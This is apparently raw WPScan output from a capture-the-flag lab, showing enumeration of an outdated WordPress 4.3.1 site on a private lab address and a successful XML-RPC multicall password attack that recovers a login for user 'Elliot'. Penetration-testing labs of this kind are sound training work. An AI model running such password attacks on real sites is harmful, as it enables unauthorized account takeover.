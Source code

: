 ```
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access

[+] The external WP-Cron seems to be enabled: http://10.10.91.137/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.3.1 identified (Insecure, released on 2015-09-15).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://10.10.91.137/47e29f4.html, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=4.3.1'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://10.10.91.137/47e29f4.html, Match: 'WordPress 4.3.1'

[+] WordPress theme in use: twentyfifteen
 | Location: http://10.10.91.137/wp-content/themes/twentyfifteen/
 | Last Updated: 2020-12-09T00:00:00.000Z
 | Readme: http://10.10.91.137/wp-content/themes/twentyfifteen/readme.txt
 | [!] The version is out of date, the latest version is 2.8
 | Style URL: http://10.10.91.137/wp-content/themes/twentyfifteen/style.css?ver=4.3.1
 | Style Name: Twenty Fifteen
 | Style URI: https://wordpress.org/themes/twentyfifteen/
 | Description: Our 2015 default theme is clean, blog-focused, and designed for clarity. Twenty Fifteen's simple, st...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In 404 Page (Passive Detection)
 |
 | Version: 1.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://10.10.91.137/wp-content/themes/twentyfifteen/style.css?ver=4.3.1, Match: 'Version: 1.3'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:03 <========================================================> (22 / 22) 100.00% Time: 00:00:03

[i] No Config Backups Found.

[+] Performing password attack on Xmlrpc Multicall against 1 user/s
[SUCCESS] - Elliot / {hmmmmmmmmmmmmmmmmmm}                                                                                                       
All Found                                                                                                                            
Progress Time: 00:00:46 <======                                                                      > (2 / 22)  9.09%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: Elliot, Password: {hmmmmmmmmmmmmmmmmmm}

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 50 daily requests by registering at https://wpscan.com/register

[+] Finished: Sat Mar  6 00:15:09 2021
[+] Requests Done: 73
[+] Cached Requests: 6
```